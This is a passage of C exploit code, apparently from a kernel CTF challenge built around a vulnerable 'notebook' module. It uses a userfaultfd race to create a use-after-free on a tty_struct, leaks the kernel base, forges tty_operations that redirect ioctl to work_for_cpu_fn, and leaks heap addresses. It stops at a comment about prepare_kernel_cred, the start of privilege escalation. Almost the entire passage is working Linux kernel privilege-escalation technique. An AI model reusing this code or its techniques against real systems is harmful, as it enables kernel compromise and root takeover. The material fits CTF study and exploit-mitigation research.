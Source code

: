 ```c
    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    note_add(0, 0x10, "arttnba3rat3bant");
    note_edit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
    puts("[*] constructing UAF on tty_struct...");

    pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
    pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

    sem_post(&evil_edit_sem);
    sleep(1);

    /**
     * fix notebook[0]->size.
     * Note that we need to sleep(1) there to wait for the `size` to be fixed.
    */
    sem_post(&evil_add_sem);
    sleep(1);

    /* leak kernel_base by tty_struct */
    puts("[*] leaking kernel_base by tty_struct");

    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    note_read(0, orig_tty_struct_data);

    if (*(int*) orig_tty_struct_data != 0x5401) {
        err_exit("failed to hit the tty_struct!");
    }

    tty_ops = orig_tty_struct_data[3];
    kernel_offset = (tty_ops & 0xfff) == (PTY_UNIX98_OPS & 0xfff) 
                    ? (tty_ops - PTY_UNIX98_OPS)
                    : tty_ops - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct fake tty_ops */
    puts("[*] construct fake tty_operations...");

    fake_tty_ops.ioctl = (void*) (kernel_offset + WORK_FOR_CPU_FN);
    note_add(1, 0x50, temp_page);
    note_edit(1, sizeof(struct tty_operations), temp_page);
    note_wriite(1, &fake_tty_ops);

    /* get kernel addr of tty_struct and tty_ops by gift */
    puts("[*] leaking kernel heap addr by gift...");

    note_gift(&kernel_notebook);
    tty_struct_addr = (size_t) kernel_notebook[0].ptr;
    fake_tty_ops_addr = (size_t) kernel_notebook[1].ptr;

    printf("[+] tty_struct at 0x%lx\n", tty_struct_addr);
    printf("[+] fake_tty_ops at 0x%lx\n", fake_tty_ops_addr);

    /* prepare_kernel_cred(NULL) */
```